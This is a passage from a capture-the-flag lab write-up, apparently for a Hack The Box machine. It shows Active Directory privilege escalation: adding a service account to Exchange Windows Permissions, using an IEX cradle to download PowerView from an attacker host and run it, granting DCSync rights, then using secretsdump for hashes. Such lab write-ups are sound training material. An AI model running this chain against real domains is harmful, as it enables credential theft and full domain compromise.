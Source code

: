 I checked groups I need to be in. And them I added myself there and check group again to be sure.

```powershell
*Evil-WinRM* PS C:\programdata> net group 'EXCHANGE WINDOWS PERMISSIONS' 
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
The command completed successfully.

*Evil-WinRM* PS C:\programdata> net group 'EXCHANGE WINDOWS PERMISSIONS' svc-alfresco /add
The command completed successfully.

*Evil-WinRM* PS C:\programdata> net group 'EXCHANGE WINDOWS PERMISSIONS' 
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
svc-alfresco
The command completed successfully.
```

I am now member of `EXCHANGE WINDOWS PERMISSIONS`. Another part of attack was almost same I missed few things. I had to create password from simple text. Them I created object with my username and credentials I just created. Lastly I could use `Add-DomainObjectAcl` command to grant me DCSync permissions. As the `Add-DomainObjectAcl` command is part of PowerView script I had to download it and run it before my command. Machine has remove me from `EXCHANGE WINDOWS PERMISSIONS` after certain time. I believe there is some clean up script involved. I create file with all commands I need it and run it. 

```powershell
*Evil-WinRM* PS C:\programdata> net group 'EXCHANGE WINDOWS PERMISSIONS' svc-alfresco /add 
The command completed successfully.

*Evil-WinRM* PS C:\programdata> $SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
*Evil-WinRM* PS C:\programdata> $Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $SecPassword)
*Evil-WinRM* PS C:\programdata> IEX(new-object net.webclient).downloadstring('http://10.10.14.7/PowerView.ps1')
*Evil-WinRM* PS C:\programdata> Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

As command did not return any error and try to get hashes from machine. I used impacket-secretsdump for it. 
